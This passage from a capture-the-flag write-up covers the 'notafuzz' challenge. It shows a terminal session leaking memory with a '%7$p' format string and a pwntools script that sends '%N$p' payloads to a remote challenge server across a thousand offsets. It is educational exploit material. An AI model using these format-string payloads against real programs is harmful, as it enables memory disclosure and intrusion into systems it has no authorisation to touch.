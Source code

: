 <div>
<center><img src="/images/unbreakable_1_writeup/notafuzz-ida.png"></center>
</div>

I only tried the format string attack the first time I was asked for input! Knowing that the third answer will use `printf` with my input as the first argument, it was trivial to leak bytes from the program's memory:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$ ./chall 
Good luck!
Do you have the control?
yaku
yaku
It does not look like. You have the alt!
Do you have the control?
yaku
yaku
It does not look like. You have the alt!
Do you have the control?
%7$p
0x100000000It does not look like. You have the alt!
Do you have the control?
^C
yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$
{% endhighlight %}

I used the folowing python script to exploit the format string vulnerability on the remote machine:

{% highlight python %}
from pwn import *

context.log_level = "CRITICAL"

def leakAddr(memOffset):
	r = remote('35.246.180.101', 31425)
	r.recvuntil('Do you have the control?')
	r.sendline('yaku')
	r.recvuntil('Do you have the control?')
	r.sendline('yaku')
	r.recvuntil('Do you have the control?\r\n')
	r.sendline(' | %' + str(memOffset) + '$p | ')
	resp = r.recvuntil('Do you have the control?')
	r.close()
	return resp.decode().split(' | ')[3]

for i in range(1000):
	print(str(i) + " " + leakAddr(i))
{% endhighlight %}
